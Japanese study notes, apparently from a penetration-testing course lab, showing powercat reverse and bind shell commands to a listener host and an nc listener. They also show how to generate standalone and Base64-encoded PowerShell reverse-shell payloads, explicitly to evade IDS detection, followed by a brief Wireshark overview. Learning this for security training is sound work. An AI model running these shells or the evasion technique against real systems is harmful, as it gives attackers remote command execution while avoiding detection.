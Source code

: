### reverse shell
```
受信側
kali@kali:~$ sudo nc -lvp 443 listening on [any] 443 ...

送信側
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe
```

### bind shell
```
受信側
PS C:\Users\offsec> powercat -l -p 443 -e cmd.exe

送信側
kali@kali:~$ nc 10.11.0.22 443
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\offsec>
```

### スタンドアローン型payloadの生成
Powercatでは-gオプションをつけることで、スタンドアローン型ペイロードの生成が可能である。
```
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1 PS C:\Users\offsec> ./reverseshell.ps1
```

しかし、スタンドアロン型ペイロードはIDSによって容易に検出される可能性がある。  
そこで、Base64でエンコードされたコマンドを実行できるPowerShell機能を利用することで、回避する。  
-geオプションを利用することで、
```
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

このファイル内の文字列をコピーして、PowerShellの-Eオプション渡すことで実行できる。

```
PS C:\Users\offsec> powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFM AZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAYQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzA CkACgAgACAAIAAgACQAYwAsACQAbAAsACQAcAAsACQAdAAgAD0AIAAkAEYAdQBuAGMAUwBlAHQAdQBwAFYAYQB yAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAG8AYgBhAGwAOgBWAGUAcgBiAG8AcwBlACkAewAkAFYAZQByAGIAb wBzAGUAIAA9ACAAJABUAHIAdQBlAH0ACgAgACAAIAAgACQARgB1AG4AYwBWAGEAcgBzACAAPQAgAEAAewB9AAo AIAAgACAAIABpAGYAKAAhACQAbAApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFYAYQByA HMAWwAiAGwAIgBdACAAPQAgACQARgBhAGwAcwBlAAoAIAAgACAAIAAgACAAJABTAG8AYwBrAGUAdAAgAD0AIAB OAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAGMAc ABDAGwAaQBlAG4AdAAKACAAIAAgACA
```



## Wireshark
ネットワークプロトコルアナライザー。    
ipアドレスやプロトコルでのフィルターを活用して調査を行う。  
また、Following TCP Streamsを活用することで、特定のセッションを再構成して表示することができる。FTPのようなクリアテキストのプロトコルの場合、送受信したコマンドや出力を見ることができる。
